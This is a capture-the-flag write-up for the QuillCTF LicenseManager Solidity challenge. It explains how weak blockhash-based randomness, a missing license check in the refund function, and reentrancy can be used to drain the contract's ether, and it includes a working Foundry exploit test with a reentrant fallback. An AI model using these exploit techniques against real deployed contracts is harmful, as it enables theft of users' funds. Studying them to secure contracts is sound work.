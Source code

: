 ```yaml
---
title: QuillCTF - LicenseManager
description: 2023 | Medium | Solidity Security
tags:
    - smart contract
    - weak randomness
    - reentrancy
---
```


## Objective of CTF

> Get the license and find at least **two** ways to collect the ethers in the contract before the owner notices

[QuillCTF Challenges - LicenseManager](https://quillctf.super.site/challenges/licensemanager)

## Vulnerability Description

- As an attacker, we can get a license with 0.01 ether through `winLicense()`. pickedNumber should be less than maxThreshold to get the license. We can not change the msg.value because we only have 0.01 ether which is the minimum required amount. Thus, we just wait until the block hash of the previous block satisfies the condition.
- Since `refundLicense()` does not check if msg.sender is in the `licensed` array, we can refund the license and get 1 ether.

> collect the ethers in the contract before the owner notices in second way

- We can buy a license since we have 1 ether this time. The licenseOwners is set to false after ETH transfer, so we can reentrant `refundLicense()` to get more ETH.

## Proof of Concept

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/LicenseManager.sol";

/** 
 * @title Test contract for LicenseManager
 */
contract LicenseManagerTest is Test {

    LicenseManager license;

    address owner = makeAddr("owner");
    address user1 = makeAddr("user1");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");
    address user4 = makeAddr("user4");

    address attacker = makeAddr("attacker");
    
    function setUp() public {
        vm.prank(owner);
        license = new LicenseManager();

        vm.deal(user1, 1 ether);
        vm.deal(user2, 1 ether);
        vm.deal(user3, 1 ether);
        vm.deal(user4, 1 ether);

        vm.prank(user1);
        license.buyLicense{value: 1 ether}();

        vm.prank(user2);
        license.buyLicense{value: 1 ether}();

        vm.prank(user3);
        license.buyLicense{value: 1 ether}();

        vm.prank(user4);
        license.buyLicense{value: 1 ether}();

    }

    function test_exploit1_2() public {
        vm.deal(attacker, 0.01 ether);
        vm.startPrank(attacker);

        // Challenge 1 solution
        uint pickedNumber = uint(keccak256(abi.encodePacked(uint256(0.01 ether), attacker, uint(1337), blockhash(block.number - 1)))) % 100;
        uint maxThreshold = uint(0.01 ether / 1e16);
        while (pickedNumber >= maxThreshold) {
            vm.roll(block.number + 1);
            pickedNumber = uint(keccak256(abi.encodePacked(uint256(0.01 ether), attacker, uint(1337), blockhash(block.number - 1)))) % 100;
        }
        license.winLicense{value: 0.01 ether}();
        // End

        assertEq(true, license.checkLicense());
        vm.stopPrank();
						
        vm.startPrank(attacker);

        // Challenge 2.1 solution
        license.refundLicense();
        // End

        assertGt(attacker.balance, 0.1 ether);
        vm.stopPrank();
    }

	/// collect the ethers in the contract before the owner notices in second way.
    function test_exploit3() public {
        vm.deal(address(this), 1 ether);

        // challenge 2.2 solution
        license.buyLicense{value: 1 ether}();
        license.refundLicense();
        // End

        console.log("\tFinal Balance\t", address(this).balance);
        assertGt(address(this).balance, 1 ether);
    }

    fallback() external payable {
        if (msg.sender.balance >= 1 ether)
            license.refundLicense();
    }
}
```